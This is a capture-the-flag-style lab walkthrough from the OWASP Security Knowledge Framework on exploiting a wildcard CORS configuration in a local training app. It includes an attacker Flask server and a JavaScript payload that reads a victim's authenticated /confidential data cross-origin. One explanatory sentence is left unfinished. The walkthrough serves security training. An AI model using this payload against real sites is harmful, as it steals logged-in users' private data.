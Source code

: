 # CORS exploitation

## Running the app on Docker

```text
$ sudo docker pull blabla1337/owasp-skf-lab:java-cors
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:java-cors
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Access-Control-Allow-Origin is a response header used by a server to indicate which domains are allowed to read the response. Based on the CORS W3 Specification it is up to the client to determine and enforce the restriction of whether the client has access to the response data based on this header.

From a penetration testing perspective you should look for insecure configurations as for example using a '\*' wildcard as value of the Access-Control-Allow-Origin header that means all domains are allowed.

Nowadays most modern frameworks do dynamical allocation of the origin header. This means that the value that is send from the origin header is dynamically allocated to the Access-Control-Allow-Origin response from the server. To verify the behaviour we need to set up our intercepting proxy, make requests to an API server and tamper with the "origin" header.

Now that we have our proxies set-up let's first start and authenticate against the target application as admin/admin.

![](../../.gitbook/assets/python/CORS/1.png)

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](../../.gitbook/assets/python/CORS/2.png)

Now that we have logged in as the target user let's look at some intercepted traffic from the application.

![](../../.gitbook/assets/java/CORS/1.png)

The image above shows highlighted in red that indeed the application has CORS enabled and has set a wildcard for the "Access-Control-Allow-Origin" response header.

The rest of the attack wil look kind of similar to a CSRF attack. However, instead of doing a state changing operation on behalf of the targeted user, we will now do a XHR GET request from our evil domain in order to steal sensitive information.

{% hint style="info" %}
More information about CSRF:  
[https://www.owasp.org/index.php/Testing_for_CSRF\_\(OTG-SESS-005\)](https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29)
{% endhint %}

## Exploitation

In order to to exploit this vulnerability we need to set up our evil webserver to do the malicious XHR GET request from. We could achieve this by creating the following python flask application.

```python
from flask import Flask, request, render_template
import requests


app = Flask(__name__, static_url_path='/static', static_folder='static')

app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for performing the malicious XHR GET request.

```javascript
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','http://0.0.0.0:5000/confidential', true);
  req.send();

  function reqListener(){
    var foo = document.getElementById("stolenInfo").innerHTML= req.responseText;
    Console.log(foo)
  }
</script>

<p id="stolenInfo"></p>
```

Save the snippet above to &gt; templates/evil.html and run the command below to start our evil application.

```text
$ python app.py
```

Let's intercept the request from the evil application to the target application.

In this request we find the "Origin" header appended to the request from source "[http://0.0.0.0:1337](http://0.0.0.0:1337)" as to be expected. It is now good to note when we remove this header from the request the attack is no longer working.

![](../../.gitbook/assets/java/CORS/2.png)

This is due to the fact that the application framework has no value to do the dynamically allocation of the origin header from. Now the "Access-Control-Allow-Origin" response header falls back to it's default which is the "\*" \(wildcard\).

Now, whenever the browser discovers the following header combination:

Let's open our evil app

![](../../.gitbook/assets/python/CORS/6.png)

We now find that we have successfully have performed a XHR GET request on the authenticated victim users behalf and stolen the sensitive information from the target application!

## Additional sources

Please read here for more information about this attack:  
[https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
